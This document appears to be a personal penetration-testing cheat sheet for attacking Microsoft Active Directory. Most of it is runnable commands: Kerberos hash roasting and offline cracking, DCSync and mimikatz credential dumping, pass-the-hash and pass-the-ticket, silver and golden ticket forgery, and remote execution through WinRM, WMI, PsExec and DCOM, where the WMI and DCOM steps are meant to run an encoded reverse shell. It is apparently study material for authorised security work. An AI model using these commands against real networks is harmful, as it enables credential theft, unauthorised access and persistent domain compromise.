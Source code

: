 # Active Directory

## Compromising Credentials

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```

## Moving Laterally

### Powershell Creds Block
For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

### WinRM
Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### evil-winrm
The same thing but from Kali, and passing the hash instead of password:
```bash
evil-winrm -i 172.16.xx.xx -u chump -H <chumps NT hash>
```

### WMI
If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`

### PsExec
This will need to be imported onto the machine, but once there very convenient. Comes as part of the SysInternals suite.
```powershell
./PsExec64.exe -i  \\TARGE-MACHINE -u corp\chump -p chumpsPassword cmd
```

### Pass the Hash - SMB Shares
Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Pass the Hash - Reverse Shell
We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```

### Pass the Hash - CMD Shell
Now with the Impacket suite:
```powershell
/usr/bin/impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.12.34
```

### Pass the Hash - Mimikatz
As if we needed another way of doing this, but here it is again with Mimikatz:
```
mimikatz # sekurlsa::pth /user:chump /domain:corp.com /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell
```

### Overpass the Hash
Instead of merely leveraging an NTLM hash to authenticate as a user, we could use it to obtain a Ticket Granting Ticket (TGT). This will allow us to make use of services that authenticate via Kerberos, and do not accept NTLM hashes. Namely the SysInternals PsExec.exe program.

First auth against a network share to make sure there is a TGT cached on the machine:
```powershell
net use \\machine07
```
Verify a TGT has been cached:
```powershell
klist
```
Now leverage to obtain a shell on a machine that we otherwise might not have been able to:
```powershell
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket
Dump all TGT and TGSs present on the machine we have an admin presence on:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Load the ticket we like the look of into our current session:
```
mimikatz # kerberos::ptt name-of-ticket-we-liked.kirbi
```
This should give our current session any privilege that that ticket grants that we didn't have already. Eg. the ability to view previously restricted files in a network fileshare.

### DCOM
To create a DCOM object:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.12.34"))
```
To leverage it to execute commands:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<our payload>","7")
```
For the payload section, once again we should make use of a base64 encoded Powershell reverse shell as detailed in `notes/shells.md`.


## Persistence

### Golden Ticket Forgery
If we have managed to own a domain controller, or a domain admin account, and we'd like to persist our access, then an ideal approach for us is to forge a so-called Golden Ticket.
```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:chump /domain:corp.com /sid:<chumps SID> /krbtgt:<krbtgt's NTLM hash> /ptt
mimikatz # misc::cmd
```
```powershell
PsExec.exe \\domainController cmd.exe
```
Nb. for the command above it is important to note that this is just Overpass The Hash on steroids, and that its important for us to leverage the hostname rather than the IP address. This is because if we use the hostname we leverage Kerberos as the auth mechanism, which we have just owned courtesy of our Golden Ticket. However if we use an IP then we fall back to NTLM auth, within which we have no special privilege.
